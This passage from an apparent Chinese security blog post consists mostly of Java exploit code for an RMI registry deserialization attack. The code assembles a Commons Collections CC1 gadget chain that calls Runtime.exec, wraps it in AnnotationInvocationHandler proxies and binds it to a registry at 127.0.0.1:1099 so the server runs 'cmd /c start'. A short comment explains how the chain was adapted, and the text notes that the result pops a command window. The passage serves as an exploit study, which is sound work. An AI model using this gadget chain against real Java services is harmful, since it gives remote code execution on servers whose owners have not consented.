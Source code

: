 ```
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

public class ServerAttackRegistryByBind {
    public static void main(String[] args) throws Exception {
        String execArgs = "cmd /c start";
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{ new ConstantTransformer(1) });
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{execArgs}),
                new ConstantTransformer(1) };
        Class transformer = Class.forName(ChainedTransformer.class.getName());
        Field iTransformers = transformer.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);
        final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);
        final Constructor ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) ctor.newInstance(Documented.class, lazyMap);
        // 这个地方和原来的CC1写法不一样，要把LazyMap.class.getInterfaces()改成new Class[]{Map.class}，LazyMap.class.getInterfaces()默认会过去到两个接口的Class，分别是Map和Serializable，但是这里只要一个Map才能触发
        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, handler);
        InvocationHandler invocationHandler = (InvocationHandler) ctor.newInstance(Documented.class, mapProxy);

        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        Remote r = Remote.class.cast(Proxy.newProxyInstance(
                Remote.class.getClassLoader(),
                new Class[] { Remote.class }, invocationHandler));
        registry.bind("test",r);
    }
}

```

来弹个cmd窗口


![image-20241125191040610](https://images.cnblogs.com/cnblogs_com/erosion2020/2432063/o_241125134805_rmi9.png)
